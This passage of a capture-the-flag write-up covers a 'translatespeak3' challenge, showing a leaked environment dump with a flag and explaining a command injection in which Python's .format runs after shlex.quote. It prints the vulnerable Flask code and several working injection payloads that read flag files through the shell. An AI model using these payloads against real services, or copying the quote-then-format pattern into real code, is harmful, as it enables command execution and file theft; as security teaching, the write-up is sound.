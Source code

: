 ```
PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=fdf7471e931dJHtC4BSK_FIRST_FLAG=JHtC4BSK{Gr34t_j0b_mr_r0b0t!}LANG=C.UTF-8GPG_KEY=0D96DF4D4110E5C43FBFB17F2D347EA6AA65421DPYTHON_VERSION=3.6.3PYTHON_PIP_VERSION=9.0.1HOME=/home/jailed
```

And so we got the flag - `JHtC4BSK{Gr34t_j0b_mr_r0b0t!}`.

#### translatespeak3

The flag\_3 has to be retrieved through a command injection vulnerability which is there in /translate endpoint and the `string` parameter we send to it:

```python
# this is just the interesting parts of the code
    string = request.args.get('translate')

if string:
    string = string[:100]

    fname = os.path.join(TMP_PATH, str(uuid4()))
    try:
        cmd = 'espeak --stdout {}'.format(shlex.quote(string))
        cmd += ' > {0}'
        cmd = cmd.format("'" + fname + "'")
        logging.info('Trying to invoke %s' % cmd)
        subprocess.check_output(cmd, shell=True, env={})
    except Exception as e:
        fname = None
        raise e
```

So it turns out that our string is passed to `shlex.quote` which should give us some safe string that could be passed to shell:

```
In [2]: shlex.quote?
Signature: shlex.quote(s)
Docstring: Return a shell-escaped version of the string *s*.
File:      /usr/lib/python3.6/shlex.py
Type:      function
```

But... then the string is concatenated with `' > {0}'` and a `.format` method is used on it which can be exploited. The point is, one can produce `'` character and go out of the quotation produced by `shlex.quote` by:
- `{0[0]}` which exploits the fact that `'` is already passed to `.format`
- `{0.__doc__[11]}` which is a really interesting and was unintended (unknown for me) way

Some of the solutions:

- `{0[0]} | cat {0[0]}/tmp/flag_3` - this puts the flag directly into the 'sound file' (which isn't a sound file anymore).
- `{0.__doc__[11]}$(cat /tmp/flag_3 | base64 -w 0 > {0}.hehe){0.__doc__[11]}` - this puts the flag into `/tmp/<uuid>.hehe` file which can then be retrieved either by `/backup?fname=...` or `/tmp/...` endpoints.
- `{0[0]} >/dev/null; espeak --stdout $(cat /tmp/flag_2) -a {0[0]}100` - this makes the service read the flag in english, which is a bit bad, as you don't know whether the letters are capital and special characters are not read (underscores and exclamation mark)
- `-f/tmp/flag_2` - does the same as above.
